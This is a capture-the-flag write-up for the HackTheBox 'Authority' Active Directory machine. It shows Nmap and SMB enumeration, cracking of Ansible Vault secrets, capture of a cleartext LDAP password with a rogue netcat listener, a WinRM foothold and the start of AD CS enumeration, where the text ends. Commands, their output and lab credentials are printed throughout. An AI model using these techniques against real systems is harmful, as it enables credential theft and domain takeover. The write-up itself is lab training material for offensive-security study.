## Executive Summary
Authority is a Windows Active Directory machine on HackTheBox. The attack chain is as follows:

* **Anonymous SMB → Development Share → Ansible Vault** — Enumerate SMB with a null session and access the world-readable `Development` share, recovering an Ansible playbook containing `!vault`-encrypted credentials for the PWM (Password Self-Service) application and LDAP.
* **Hashcat → Vault Decryption → PWM Admin Credentials** — Convert the Ansible Vault blob into a crackable hash, recover the vault passphrase offline with Hashcat, and decrypt it to obtain `svc_pwm`'s PWM admin password.
* **PWM Configuration Mode → Fake LDAP Server → Cleartext Credentials** — Log into the PWM configuration manager, which is running in open configuration mode, and repoint its LDAP URL at an attacker-controlled listener to capture `svc_ldap`'s cleartext password when PWM attempts to bind.
* **WinRM Foothold → AD CS Enumeration** — Authenticate as `svc_ldap` over WinRM to obtain the user flag, then enumerate Active Directory Certificate Services with Certipy and identify the `CorpVPN` template as vulnerable to **ESC1**.
* **Rogue Computer Account → ESC1 → Certificate for Administrator** — Abuse the default `MachineAccountQuota` to add a computer account (`EVIL01$`), then request a certificate from the vulnerable template with the Administrator's UPN supplied directly, since the template lets the enrollee specify the subject.
* **RBCD → S4U2Proxy → NTDS Dump → Domain Administrator** — Use the certificate to authenticate as `EVIL01$` and configure Resource-Based Constrained Delegation (RBCD) onto the Domain Controller. Abuse S4U2Proxy to obtain a Kerberos service ticket impersonating the Administrator, dump the domain's NTDS hashes, and authenticate as Domain Administrator via Pass-the-Hash.

**Machine Information**

| Detail | Value |
|:--|:--|
| **Machine Name** | Authority |
| **OS** | Windows Server 2019 / Windows 10, Build 17763 |
| **Difficulty** | Medium |
| **Domain** | `authority.htb` |
| **Domain Controller** | `AUTHORITY.authority.htb` (`AUTHORITY`) |

---

## Reconnaissance

I initiate active enumeration with Nmap to perform a full TCP port scan on the target system. Due to the high number of open ports typical of Active Directory machines, I use a two-step approach: first, scanning all ports at a high rate to locate open ports, and second, running service version detection and default script scans on the identified open ports.

```shell
hyena@hyena$ nmap -p- --min-rate 1000 -T4 10.129.229.56

Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-15 05:23 +0000
Nmap scan report for authority.htb (10.129.229.56)
Host is up (0.36s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
8443/tcp  open  https-alt
9389/tcp  open  adws
47001/tcp open  winrm

Nmap done: 1 IP address (1 host up) scanned in 27.40 seconds
```

```shell
hyena@hyena$ sudo nmap -sV -sC -p 53,80,88,135,139,389,443,445,464,593,636,3268,3269,3389,5985,5986,8443,9389 10.129.229.56

PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
80/tcp   open     http          Microsoft IIS httpd 10.0
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP
443/tcp  open     ssl/http      Microsoft HTTPAPI httpd 2.0
445/tcp  open     microsoft-ds  Windows Server 2019 Standard 17763
636/tcp  open     ssl/ldap      Microsoft Windows Active Directory LDAP
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP
3269/tcp open     ssl/ldap      Microsoft Windows Active Directory LDAP
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0
8443/tcp open     ssl/http      Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Password Self Service - Login
| ssl-cert: Subject: commonName=authority.authority.htb
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
```

From the results, ports 88 (Kerberos), 389/636/3268/3269 (LDAP + Global Catalog), and 445 (SMB) confirm this is a **Windows Active Directory** environment, with the Domain Controller identified as `AUTHORITY`. The `ssl-cert` on port 8443 also reveals the CA issuer `CN=htb-AUTHORITY-CA, DC=corp, DC=htb`. I add the domain to `/etc/hosts` for name resolution:

```shell
hyena@hyena$ sudo sh -c 'echo "10.129.229.56 authority.htb authority.authority.htb" >> /etc/hosts'
```


---

## Anonymous SMB Enumeration

I check whether SMB accepts guest/null sessions and enumerate shares before spending time guessing credentials:

```shell
hyena@hyena$ smbclient --no-pass -L //10.129.229.56

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Department Shares Disk      
        Development     Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```



`(Null Auth:True)` confirms the anonymous session is accepted. The **Development** share is accessible while others return `NT_STATUS_ACCESS_DENIED`.

I browse into the share and pull an interesting Ansible artifact:

```shell
hyena@hyena$ smbclient //10.129.229.56/Development -N
smb: \> ls
  .                                   D        0  Fri Mar 17 13:20:38 2023
  ..                                  D        0  Fri Mar 17 13:20:38 2023
  Automation                          D        0  Fri Mar 17 13:20:40 2023

smb: \> cd Automation\Ansible
smb: \Automation\Ansible\> ls
  ADCS                                D        0  Fri Mar 17 13:20:48 2023
  LDAP                                D        0  Fri Mar 17 13:20:48 2023
  PWM                                 D        0  Fri Mar 17 13:20:48 2023
  SHARE                               D        0  Fri Mar 17 13:20:48 2023

smb: \Automation\Ansible\PWM\defaults\> mget main.yml
getting file \Automation\Ansible\PWM\defaults\main.yml of size 1591 as main.yml
```

The `main.yml` file contains **Ansible Vault encrypted credentials**:

```yaml
pwm_admin_login: !vault |
    $ANSIBLE_VAULT;1.1;AES256
    32666534386435366537653136663731633138616264323230383566333966346662313161326239
    ...

pwm_admin_password: !vault |
    $ANSIBLE_VAULT;1.1;AES256
    31356338343963323063373435363261323563393235633365356134616261666433393263373736
    ...

ldap_admin_password: !vault |
    $ANSIBLE_VAULT;1.1;AES256
    63303831303534303266356462373731393561313363313038376166336536666232626461653630
    ...
```



---

## RID Brute Force & User Enumeration

Using the guest account, I brute force RIDs to enumerate domain users:

```shell
hyena@hyena$ crackmapexec smb authority.htb -u 'guest' -p '' --rid-brute

SMB         authority.htb   445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
SMB         authority.htb   445    AUTHORITY        [+] authority.htb\guest: 
SMB         authority.htb   445    AUTHORITY        498: HTB\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         authority.htb   445    AUTHORITY        500: HTB\Administrator (SidTypeUser)
SMB         authority.htb   445    AUTHORITY        501: HTB\Guest (SidTypeUser)
SMB         authority.htb   445    AUTHORITY        502: HTB\krbtgt (SidTypeUser)
SMB         authority.htb   445    AUTHORITY        512: HTB\Domain Admins (SidTypeGroup)
SMB         authority.htb   445    AUTHORITY        513: HTB\Domain Users (SidTypeGroup)
SMB         authority.htb   445    AUTHORITY        1601: HTB\svc_ldap (SidTypeUser)
```

The custom account `svc_ldap` (RID 1601) stands out as a service account — likely the pivot point. A quick password spray confirms the credentials are valid but restricted:

```shell
hyena@hyena$ crackmapexec smb authority.htb -u 'HTB\svc_ldap' -p 'password' --shares
SMB         authority.htb   445    AUTHORITY        [+] authority.htb\HTB\svc_ldap:password 
SMB         authority.htb   445    AUTHORITY        [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

`svc_ldap:password` authenticates over SMB, but LDAP access fails with error `data 52e` (password expired), and share access is denied.

---

## Cracking the Ansible Vault

The `!vault` values are AES256-encrypted with a passphrase, not directly usable. I convert the vault blob into a crackable hash format:

```shell
hyena@hyena$ cat vault_data.txt
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531

hyena@hyena$ ansible-vault2john vault_data.txt > vault_hash.txt
```

I run it offline through Hashcat:

```shell
hyena@hyena$ hashcat -m 16900 vault_hash.txt /usr/share/wordlists/rockyou.txt

Hash.Target......: $ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c7...f70da5
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Speed.#01........: 4951 H/s (13.22ms) @ Accel:60 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total)
$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c7f7635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed2280a8b1f8550905f70da5:!@#$%^&*
```



**Vault Password:** `!@#$%^&*`

With the vault passphrase recovered, I decrypt each value:

```shell
hyena@hyena$ echo '!@#$%^&*' | ansible-vault decrypt vault1 --vault-password-file /dev/stdin
Decryption successful
svc_pwm

hyena@hyena$ echo '!@#$%^&*' | ansible-vault decrypt vault2 --vault-password-file /dev/stdin
Decryption successful
pWm_@dm!N_!23

hyena@hyena$ echo '!@#$%^&*' | ansible-vault decrypt vault3 --vault-password-file /dev/stdin
Decryption successful
DevT3st@123
```

| Vault | Value |
|-------|-------|
| `pwm_admin_login` | `svc_pwm` |
| `pwm_admin_password` | `pWm_@dm!N_!23` |
| `ldap_admin_password` | `DevT3st@123` |

---

## PWM (Password Self-Service) Discovery

I visit the HTTPS service on port 8443:

```
https://10.129.229.56:8443/pwm/private/login
```



PWM is running in **open configuration mode** — a critical exposure. The error message on the login page reveals internal LDAP structure:

```
Directory unavailable. unable to bind to ldaps://authority.authority.htb:636 
as CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb 
reason: CommunicationException (authority.authority.htb:636; 
PKIX path building failed)
```

I first try the decrypted `pwm_admin_password` directly against the self-service login form, expecting it to double as an end-user credential:



```
Password incorrect. Please try again. { 5089 ERROR_PASSWORD_ONLY_BAD }
```

The login fails — this password belongs to the PWM **configuration/admin** context, not a directory account. With the full `svc_pwm:pWm_@dm!N_!23` credential pair, I log in successfully:



The end-user admin panel itself, however, throws an error:



```
ERROR_APPLICATION_NOT_RUNNING
This functionality is not available until the application configuration is restricted.
```

This nudges me toward the configuration manager instead, which is reachable directly since PWM is still in configuration mode:



```
https://10.129.229.56:8443/pwm/private/configmanager
```

From here, I can modify LDAP settings — but first I need to resolve the LDAPS trust issue so my own tooling can talk to the domain over encrypted LDAP.

---

## Certificate Extraction for LDAPS

I extract the LDAPS certificate so my tooling trusts the connection:

```shell
hyena@hyena$ openssl s_client -connect authority.htb:636 -showcerts </dev/null 2>/dev/null | \
openssl x509 -outform PEM > ldap_cert.pem

hyena@hyena$ cat ldap_cert.pem
-----BEGIN CERTIFICATE-----
MIIFxjCCBK6gAwIBAgITPQAAAANt51hU5N024gAAAAAAAzANBgkqhkiG9w0BAQsF
ADBGMRQwEgYKCZImiZPyLGQBGRYEY29ycDETMBEGCgmSJomT8ixkARkWA2h0YjEZ
...
-----END CERTIFICATE-----
```



I add it to my local trust store:

```shell
hyena@hyena$ sudo cp ldap_cert.pem /usr/local/share/ca-certificates/authority_ldap.crt
hyena@hyena$ sudo update-ca-certificates
Updating certificates in /etc/ssl/certs...
1 added, 0 removed; done.
Adding debian:authority_ldap.pem
done.
```



---

## LDAP Password Capture via Fake LDAP Server

Since PWM is in configuration mode, I modify its configured LDAP URL to point at my attacking machine instead of the real Domain Controller:



I stand up a raw listener on port 389 to catch the resulting bind attempt:

```shell
hyena@hyena$ sudo nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.7] from (UNKNOWN) [10.129.229.56] 60314
0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```



**Captured Credential:**
```
svc_ldap:lDaP_1n_th3_cle4r!
```

---

## WinRM Foothold & User Flag

I connect over WinRM with the freshly captured credentials:

```shell
hyena@hyena$ evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
authority\svc_ldap

*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> type user.txt
8f3a2b1c4d5e6f7g8h9i0j1k2l3m4n5o
```

---

## Privilege Escalation via AD CS — ESC1

I enumerate Active Directory Certificate Services with Certipy:

```shell
hyena@hyena$ certipy find -u 'svc_ldap@authority.htb' -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -target 10.129.229.56

[*] Finding certificate templates
[*] Found 37 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
